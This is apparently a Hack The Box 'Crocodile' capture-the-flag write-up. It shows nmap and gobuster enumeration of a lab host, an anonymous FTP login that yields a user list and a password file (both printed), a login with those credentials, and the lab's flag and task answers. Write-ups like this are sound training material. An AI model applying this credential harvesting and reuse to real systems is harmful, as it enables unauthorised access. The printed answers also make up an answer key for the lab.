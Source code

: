 # Crocodile

## Task 1: What nmap scanning switch employs the use of default scripts during a scan?

`-sC`

from manpage:

```text
 -sC: equivalent to --script=default
```

## Task 2: What service version is found to be running on port 21?

vsFTPd 3.0.3

## Task 3: What FTP code is returned to us for the "Anonymous FTP login allowed" message?

230

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ ftp 10.129.71.2
Connected to 10.129.71.2.
220 (vsFTPd 3.0.3)
Name (10.129.71.2:realkali): anonymous
230 Login successful.
```

## Task 4: What command can we use to download the files we find on the FTP server?

get

## Task 5: What is one of the higher-privilege sounding usernames in the list we retrieved?

answer: admin

```bash
ftp> ls
229 Entering Extended Passive Mode (|||49769|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||41717|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |***************************************************************************|    33       13.46 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.10 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||44156|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |***************************************************************************|    62      167.71 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.20 KiB/s)
```

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin

┌──(realkali㉿SeaDragnoL)-[~]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

## Task 6: What version of Apache HTTP Server is running on the target host?

2.4.41

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 80 10.129.21.149 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 14:05 EDT
Nmap scan report for 10.129.21.149
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.04 seconds
```

## Task 7: What is the name of a handy web site analysis plug-in we can install in our browser?

Wappalyzer

## Task 8: What switch can we use with gobuster to specify we are looking for specific filetypes?

-x

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir --help
Uses directory/file enumeration mode

Usage:
  gobuster dir [flags]

Flags:
  -x, --extensions string               File extension(s) to search for
```

## Task 9: What file have we found that can provide us a foothold on the target?

login.php

```bash
┌──(kali㉿kali)-[/usr/share/wordlists/dirb]
└─$ gobuster dir -x php -w common.txt -u 10.129.21.149
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.21.149
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/16 15:02:08 Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.21.149/assets/]
/config.php           (Status: 200) [Size: 0]                                     
/css                  (Status: 301) [Size: 312] [--> http://10.129.21.149/css/]   
/dashboard            (Status: 301) [Size: 318] [--> http://10.129.21.149/dashboard/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.21.149/fonts/]    
/index.html           (Status: 200) [Size: 58565]                                    
/js                   (Status: 301) [Size: 311] [--> http://10.129.21.149/js/]       
/login.php            (Status: 200) [Size: 1577]                                     
/logout.php           (Status: 302) [Size: 0] [--> login.php]                        
/server-status        (Status: 403) [Size: 278]
```

## Task 10: Submit root flag

c7110277ac44d78b6a9fff2232434d16

login with admin credentials obtained via ftp in login.php page.
![alt login](./img/crocodile-login.png)
![alt flag](./img/crocodile-flag.png)